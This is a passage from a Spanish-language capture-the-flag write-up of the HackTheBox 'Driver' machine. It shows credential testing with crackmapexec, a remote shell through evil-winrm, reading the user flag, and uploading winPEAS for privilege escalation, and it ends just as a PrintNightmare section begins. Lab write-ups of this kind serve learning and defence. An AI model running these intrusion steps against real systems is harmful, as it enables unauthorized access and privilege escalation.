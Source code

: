 Posteriormente, se probó la autenticación a través del servicio WinRM (Windows Remote Management), también utilizando `crackmapexec`. El acceso fue exitoso y se indicó la posibilidad de ejecución remota de comandos con el mensaje `(Pwn3d!)`.
```bash
❯ crackmapexec winrm smb 10.10.11.106 -u 'tony' -p 'liltony'
SMB         10.10.11.106    5985   DRIVER           [*] Windows 10.0 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        10.10.11.106    5985   DRIVER           [*] http://10.10.11.106:5985/wsman
HTTP        10.10.11.106    5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

Finalmente, se estableció una sesión remota utilizando `evil-winrm` con las credenciales previamente obtenidas. La conexión fue exitosa y permitió acceder al sistema como el usuario **driver\tony**:
```bash
❯ evil-winrm -i 10.10.11.106 -u 'tony' -p 'liltony'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> 
```

Una vez dentro del sistema como el usuario **tony**, se accedió al escritorio del mismo y se localizó el archivo `user.txt`, que contiene la primera flag.
```bash
*Evil-WinRM* PS C:\Users\tony\Documents> cd ..
*Evil-WinRM* PS C:\Users\tony> cd Desktop
*Evil-WinRM* PS C:\Users\tony\Desktop> dir


    Directory: C:\Users\tony\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         6/8/2025   9:58 PM             34 user.txt


*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
140be9e11c309ee79fe5c9d2958c887e
```

## Escalada PrintNightmare
Con el objetivo de identificar posibles vectores de escalada de privilegios, se subió la herramienta de reconocimiento **winPEASx64.exe** al directorio temporal `C:\Windows\Temp\Priv`. Esta utilidad automatiza la recolección de información sensible del sistema relacionada con vulnerabilidades locales, configuraciones inseguras y servicios mal configurados.
```bash
*Evil-WinRM* PS C:\Windows\Temp\Priv> upload winPEASx64.exe
                                        
Info: Uploading /home/alex/HTB/driver/winPEASx64.exe to C:\Windows\Temp\Priv\winPEASx64.exe
                                        
Data: 13540692 bytes of 13540692 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Windows\Temp\Priv> .\winPEASx64.exe
```
